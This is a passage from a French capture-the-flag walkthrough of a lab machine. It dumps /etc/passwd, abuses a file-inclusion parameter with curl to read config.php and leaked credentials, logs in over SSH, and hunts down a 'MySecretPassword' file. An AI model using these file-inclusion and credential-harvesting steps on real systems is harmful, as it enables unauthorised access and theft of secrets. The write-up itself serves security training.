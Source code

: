 ```console
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
kira:x:1000:1000:kira:/home/kira:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
bassam:x:1001:1001::/home/bassam:/bin/sh
test:x:1002:1002::/home/test:/bin/sh
```

Durant l'énumération, on a aussi croisé un fichier `config.php`. Ce dernier contient des identifiants :

```console
$ curl -s http://welcome.bassam.ctf/index.php -X POST --data "url=config.php"
<?php
$user='test';
$pass='test123';
?>
```

### Michel Blanc

Les identifiants en question permettent un accès sur SSH. L'historique bash mentionne un fichier nommé `MySecretPassword` que l'on retrouve sous la racine web :

```console
$ id
uid=1002(test) gid=1002(test) groups=1002(test)
$ ls -al
total 32
drwxr-xr-x 4 test test 4096 Dec 13  2020 .
drwxr-xr-x 5 root root 4096 Dec 13  2020 ..
-rw------- 1 test test   34 Dec 13  2020 .bash_history
-rw-r--r-- 1 test test  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 test test 3771 Apr  4  2018 .bashrc
drwx------ 2 test test 4096 Dec 13  2020 .cache
drwx------ 3 test test 4096 Dec 13  2020 .gnupg
-rw-r--r-- 1 test test  807 Apr  4  2018 .profile
$ cat .bash_history
ls
cat MySecretPassword 
clear
ls
$ sudo -l
[sudo] password for test: 
Sorry, user test may not run sudo on kira.
$ find / -name MySecretPassword 2> /dev/null    
/var/www/ctf/MySecretPassword
$ cat /var/www/ctf/MySecretPassword
                                                                                                           
                                                                                                         
                                                                                                                  
                                                                                                 
```
